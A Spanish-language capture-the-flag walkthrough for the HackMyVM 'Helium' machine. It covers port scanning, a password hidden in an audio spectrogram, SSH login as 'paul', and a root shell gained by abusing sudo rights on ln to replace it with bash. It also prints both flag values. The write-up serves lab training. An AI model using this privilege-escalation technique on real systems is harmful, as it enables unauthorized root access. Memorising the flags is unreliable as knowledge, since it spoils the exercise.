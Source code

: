 ```yaml
---
icon: flag
---
```


# Helium HackMyVM (Easy- Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-08 06:35 EDT
Nmap scan report for 192.168.5.7
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:f6:55:5f:c6:fa:fb:14:15:ae:4a:2b:38:d8:4a:30 (RSA)
|   256 b7:ac:87:6d:c4:f9:e3:9a:d4:6e:e0:4f:da:aa:22:20 (ECDSA)
|_  256 fe:e8:05:af:23:4d:3a:82:2a:64:9b:f7:35:e4:44:4a (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: RELAX
MAC Address: 08:00:27:0C:C2:6E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.49 seconds
```

Veremos que hay un puerto `80` en el que se aloja una pagina web, si entramos dentro veremos una pagina con un audio insertado, que si lo reproducimos suena como unas campanas pequeñas, pero nada interesante.

Si inspeccionamos el codigo veremos lo siguiente:

```html
<!-- Please paul, stop uploading weird .wav files using /upload_sound -->
```

Vemos que ya tenemos un nombre de usuario llamado `paul`, si seguimos investigando veremos que el siguiente link:

```html
<link href="[bootstrap.min.css](view-source:http://192.168.5.7/bootstrap.min.css)" rel="stylesheet">
```

Que si le damos nos lleva a esta parte:

```css
/yay/mysecretsound.wav
```

Podemos creer que es un directorio con dicho archivo, si entramos dentro efectivamente nos descargara el archivo de la musica.

```
URL = http://<IP>/yay/mysecretsound.wav
```

## Escalate user paul

### audacity

Si lo escuchamos nos escucharemos nada interesante, pero al llamarse `secretsound` podemos deducir que algo oculto esconde, por lo que vamos a probar a realizar un `Espectograma` ha dicho audio, vamos a utilizar la herramienta llamada `audacity`.

```shell
sudo apt install audacity
```

Para abrirlo ejecutaremos simplemente:

```shell
audacity
```

Una vez abierto abriremos el audio `.wav` y cargara el audio viendolo de esta forma:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-05-08 125752.png" alt=""><figcaption></figcaption></figure>

Ahora le tendremos que dar al siguiente boton:

<figure><img src="../../.gitbook/assets/edit.png" alt=""><figcaption></figcaption></figure>

Le daremos a la opcion `Spectogram` y veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-05-08 130058.png" alt=""><figcaption></figcaption></figure>

Veremos que hay un mensaje `oculto` que pone lo siguiente:

```
dancingpassyo
```

Ahora vamos a probarlo con el usuario que encontramos para loguearnos por `SSH` de la siguiente forma:

### SSH

```shell
ssh paul@<IP>
```

Metemos como contraseña `dancingpassyo` y con esto veremos que estaremos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
ilovetoberelaxed
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for paul on helium:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User paul may run the following commands on helium:
    (ALL : ALL) NOPASSWD: /usr/bin/ln
```

Veremos que podemos ejecutar `ln` como el usuario `root`, por lo que haremos lo siguiente.

```shell
sudo ln -fs /bin/bash /bin/ln
sudo ln
```

Y con esto seremos `root`:

```
root@helium:/home/paul# whoami
root
```

Por lo que vamos a leer la `flag` de `root`:

> root.txt

```
ilovetoberoot
```
